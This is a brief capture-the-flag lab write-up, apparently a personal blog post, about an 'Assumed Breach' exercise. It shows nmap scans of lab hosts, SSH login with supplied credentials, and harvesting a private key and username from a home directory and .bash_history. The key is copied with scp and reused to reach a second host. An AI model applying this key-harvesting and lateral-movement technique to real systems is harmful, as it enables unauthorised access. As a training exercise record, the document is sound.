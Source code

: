 ```yaml
---
layout: post
title:  "CTFLive - Assumed Breach"
postid: blog
categories: CTFLive
---
```


<br />

# Assumed Breach
2/7 flags achieved

My Kali IP: 192.106.163.2
Target IP: 
192.106.163.3
192.106.163.4
192.106.163.5
192.106.163.6

## Info from hints
User:sansa 
Password: welcome@123
Flags: 7
Machines: 4

<br />

# Nmap Scan
nmap -sC -sV 192.106.163.3
22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

nmap -sC -sV 192.106.163.4
22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

nmap -sC -sV 192.106.163.5
21 ftp ProFTPD 1.3.5a
22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

nmap -sC -sV 192.106.163.6
21 ftp ProFTPD 1.3.5a
22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

<br />

# 192.106.163.3
## SSH
ssh sansa@192.106.163.3
[Using Sansa's U/Pw]
[Flag and id_rsa found on Sansa's Directoy]

[Looked over .bash_history. New user: kate]
shows ```ssh -i id_rsa kate@192.106.163.3```

[From Kali, scp the id_rsa to my directory]
scp sansa@192.106.163.3:/home/sansa/id_rsa /root/

[Used kate's id_rsa to try to enter other machines]

<br />

# 192.106.163.4
[ssh using id_rsa with kate]
ssh -i id_rsa kate@192.106.163.4

[Flag found under kate's directory]

<br />

**Not able to pivot anywhere else.**